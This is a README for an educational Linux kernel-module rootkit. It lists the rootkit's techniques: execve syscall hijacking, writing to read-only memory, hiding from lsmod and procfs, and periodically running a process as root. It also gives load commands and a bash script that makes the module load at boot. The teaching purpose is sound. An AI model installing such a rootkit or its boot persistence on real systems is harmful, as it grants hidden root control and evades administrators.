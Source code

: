 # Linux Rootkit


## Description

This project is a Linux Kernel Module (LKM) Rootkit for educational purposes. For a 
complete introduction, see the talk presented at Toorcamp 2018 or Thotcon 2019. This 
rootkit is deliberately simplified to teach the basics of rootkit development. It 
demonstrates the following subversive techniques: 

 * Starts a kernel thread which executes a userland process as root periodically
 * Dynamically finds the runtime address of the syscall table using kallsyms
 * Demonstrates writing to read-only pages of memory using CR0 and PTE methods
 * Hijacks the execve system call
 * Hides from procfs and sysfs and lsmod
 

## Compile / Load

Use `dmesg -w` to see the diagnostic output. After loading, experiment running various
shell commands to see execve being hijacked in real time.


```
make
sudo insmod rootkit.ko
lsmod
sudo rmmod rootkit.ko
```


## Install at boot (optional) 

The following script installs the rootkit to load at boot

```
#!/bin/bash
NAME="rootkit"
DIR="/lib/modules/`uname -r`/kernel/drivers/$NAME/"
sudo mkdir -p $DIR
sudo cp $NAME.ko $DIR
sudo depmod
sudo bash -c 'cat << EOF > /etc/modules-load.d/rootkit.conf
rootkit
EOF'
```

